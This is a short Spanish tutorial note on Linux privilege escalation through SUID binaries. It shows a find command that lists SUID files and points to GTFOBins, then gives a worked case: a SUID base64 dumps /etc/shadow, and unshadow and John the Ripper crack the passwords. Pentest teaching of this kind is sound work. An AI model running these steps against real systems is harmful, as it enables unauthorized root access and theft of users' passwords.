

# SUID exploits

Se puede vulnerar y escalar privilegios aprovechando el flag suid o guid de un binario.

Aparte de los permisos normales de linux, se puede agregar un flag de tipo suid o guid que permite a una aplicación ejecutarse en el contexto del dueño o grupo original de un binario.

Esto es util cuando un admin no quiere darle un permiso a un usuario y decide asignarle especificamente un permiso especial al binario que es necesario para ejecutar la tarea. (por ejemplo usar find sin restriccion de permiso, pero no por eso le voy a dar root), en fin. a veces puede que este permiso temporal no se revoque y genere una vulnerabilidad. 

## Vector de ataque

En esencia el vector de ataque es el siguiente:

1. Buscar suid o sgid de archivos
2. Buscar exploits disponibles en gtfobins.github.com
3. Ejecutar exploit
4. Caso de uso

## Buscar binarios vulnerables

```
find / -type f -perm -04000 -ls 2>/dev/null
```

Esto listará archivos que tengan seteado setuid flag

## Buscar exploit disponible

Dado algun elemento de interes, buscarlo en gtfobins.github.com



## Explotar

Una vez encontremos algun exploit, seguir las indicaciones del exploit suid.

## Caso de uso - romper contraseñas

Por ejemplo, en el caso de base64, nos permite leer archivos como root y "manipularlo".

En este caso leeremos un archivo shadow solo accesible por root y lo volcaremos a otro para post procesar.

```
base64 "/etc/shadow" | base64 --decode > shadow
```

en ese mismo sentido, recuperamos el archivo passwd, ya que con esto podremos armar lo necesario para utilizar johntheripper.

ejecutamos unshadow 

```
unshadow passwd shadow > unshadowed
```

Aplicamos johntheripper para crackear password en base a diccionario.

```
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed
```

Esto ejecutará fuerza bruta para crackear claves de usuario. 

---
Happy exploiting - Zpx